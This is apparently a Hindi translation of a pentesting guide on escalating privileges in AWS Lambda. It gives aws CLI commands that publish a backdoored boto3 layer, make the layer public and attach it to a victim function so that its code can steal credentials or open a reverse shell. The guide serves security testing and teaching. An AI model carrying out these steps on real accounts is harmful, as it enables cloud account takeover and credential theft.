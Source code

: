 उदाहरण के लिए, मान लीजिए कि लैम्ब्डा पुस्तकालय boto3 का उपयोग कर रहा है, यह पुस्तकालय के अंतिम संस्करण के साथ एक स्थानीय लेयर बनाएगा:
```bash
pip3 install -t ./lambda_layer boto3
```
आप `./lambda_layer/boto3/__init__.py` खोल सकते हैं और **वैश्विक कोड में बैकडोर जोड़ सकते हैं** (उदाहरण के लिए, क्रेडेंशियल्स को एक्सफिल्ट्रेट करने के लिए या एक रिवर्स शेल प्राप्त करने के लिए)।

फिर, उस `./lambda_layer` निर्देशिका को ज़िप करें और **अपने खाते में नया लैम्ब्डा लेयर अपलोड करें** (या पीड़ित के खाते में, लेकिन आपके पास इसके लिए अनुमतियाँ नहीं हो सकती हैं)।\
ध्यान दें कि आपको एक पायथन फ़ोल्डर बनाना होगा और वहां पुस्तकालयों को रखना होगा ताकि /opt/python/boto3 को ओवरराइड किया जा सके। इसके अलावा, लेयर को **लैम्ब्डा द्वारा उपयोग की जाने वाली पायथन संस्करण** के साथ **संगत** होना चाहिए और यदि आप इसे अपने खाते में अपलोड करते हैं, तो यह **समान क्षेत्र** में होना चाहिए:
```bash
aws lambda publish-layer-version --layer-name "boto3" --zip-file file://backdoor.zip --compatible-architectures "x86_64" "arm64" --compatible-runtimes "python3.9" "python3.8" "python3.7" "python3.6"
```
अब, अपलोड की गई लैम्ब्डा परत को **किसी भी खाते द्वारा सुलभ** बनाएं:
```bash
aws lambda add-layer-version-permission --layer-name boto3 \
--version-number 1 --statement-id public \
--action lambda:GetLayerVersion --principal *
```
और पीड़ित लैम्ब्डा फ़ंक्शन से लैम्ब्डा लेयर को संलग्न करें:
```bash
aws lambda update-function-configuration \
--function-name <func-name> \
--layers arn:aws:lambda:<region>:<attacker-account-id>:layer:boto3:1 \
--timeout 300 #5min for rev shells
```
अगला कदम होगा या तो **फंक्शन को स्वयं कॉल करना** यदि हम कर सकें या सामान्य तरीकों से **इसे कॉल होने का इंतजार करना** - जो कि सुरक्षित तरीका है।

**इस कमजोरियों का शोषण करने का एक अधिक छिपा हुआ तरीका** यहाँ पाया जा सकता है:

{{#ref}}
../aws-persistence/aws-lambda-persistence/aws-lambda-layers-persistence.md
{{#endref}}

**संभावित प्रभाव:** उपयोग की जाने वाली लैम्ब्डा सेवा भूमिका के लिए सीधे प्रिवेस्क।

### `iam:PassRole`, `lambda:CreateFunction`, `lambda:CreateFunctionUrlConfig`, `lambda:InvokeFunctionUrl`

शायद इन अनुमतियों के साथ आप एक फंक्शन बना सकते हैं और इसे URL को कॉल करके निष्पादित कर सकते हैं... लेकिन मैं इसे परीक्षण करने का एक तरीका नहीं ढूंढ सका, तो मुझे बताएं यदि आप करते हैं!

### लैम्ब्डा MitM

कुछ लैम्ब्डा **उपयोगकर्ताओं से संवेदनशील जानकारी प्राप्त करने जा रहे हैं।** यदि इनमें से एक में RCE प्राप्त होता है, तो आप अन्य उपयोगकर्ताओं द्वारा भेजी जा रही जानकारी को एक्सफिल्ट्रेट कर सकते हैं, इसे यहाँ देखें:

{{#ref}}
../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md
{{#endref}}
